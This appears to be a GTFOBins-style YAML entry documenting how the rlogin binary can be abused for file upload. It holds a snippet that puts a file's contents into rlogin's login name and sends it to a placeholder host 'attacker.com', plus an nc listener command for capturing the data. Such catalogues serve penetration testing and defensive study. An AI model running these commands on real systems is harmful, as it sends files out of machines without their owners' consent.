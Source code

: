 ```yaml
---
functions:
  file-upload:
    - description: Send contents of a file to a TCP port. Run `nc -nlvp 12345 > "file_to_save"` on the attacker system to capture the contents.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
---
```

